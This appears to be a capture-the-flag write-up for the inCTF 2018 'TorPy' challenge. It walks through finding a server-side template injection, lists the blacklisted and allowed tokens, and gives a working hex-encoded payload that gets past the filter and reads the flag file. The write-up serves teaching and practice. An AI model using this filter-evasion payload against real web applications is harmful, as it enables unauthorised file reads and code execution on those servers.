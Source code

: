# TorPy

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/13.png)

Only 17/306=5% of the teams solved this one. We were the second team to solve this one.

## Reconnaissance

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/14.png)

Okay we see a interesting name in a comment.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/15.png)

Okay we can inject stuff. This is probably a template injection.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/17.png)

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/18.png)

## Blacklisted
```python
__class__
subprocesses
os
import
builtins
eval
file
getattr
[]
for
if
open
_tt_append
```
## Whitelisted, probably useful
```python
locals
;
globals
while
dir
==
bool
__getitem__
base
```

### Attack

Our goal is to run the below code. But we cant use [] or builtins:
```python
globals()["__builtins__"].open("/flag").read()
```

The following python methods were the key to solving this challenge. The difference between this and the file upload challenge is that in this one, we can't use [].

* `__getitem__`
* `bytes.fromhex`
* `globals()`

As we could convert stuff from hex to ascii we can type anything we want basically.

```
5f5f6275696c74696e735f5f => __builtins__
6f70656e => open
```

And now we just create our payload:
```python
?name={{globals().__getitem__(bytes.fromhex(%275f5f6275696c74696e735f5f%27).decode(%27utf-8%27)).__getitem__(bytes.fromhex(%276f70656e%27).decode(%27utf-8%27))(%22/flag%22,%20%22r%22).read()}}
```

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/16.png)
